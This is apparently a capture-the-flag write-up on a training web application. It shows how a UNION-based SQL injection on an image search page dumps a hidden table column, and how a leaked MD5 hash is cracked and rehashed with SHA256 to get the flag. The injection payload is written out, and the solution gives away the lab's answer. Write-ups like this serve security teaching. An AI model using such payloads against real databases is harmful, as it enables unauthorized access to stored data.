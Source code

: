 # SQL Injection

Following our first SQL injection attack, it allowed us to get a lot of useful info, notably about the following table:

|list_images||||
|:-:|:-:|:-:|:-:|
|id|url|title|comment|

The searchimg page we are now on apparently allows us to search for images based off of their ids. However, we can only see their title and url, not the comment. Guess we have to do some SQL Injection again :D
```
ID: 1 
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_
```
The following SQL Injection allows us to see the url and comment of every line in the list_images table.
```
1=2 UNION ALL SELECT url, comment FROM list_images
```
We find one very interesting comment as follows:
```
If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```

Following the instructions, we get the word `albatroz` which hashed in SHA256 gives us the flag.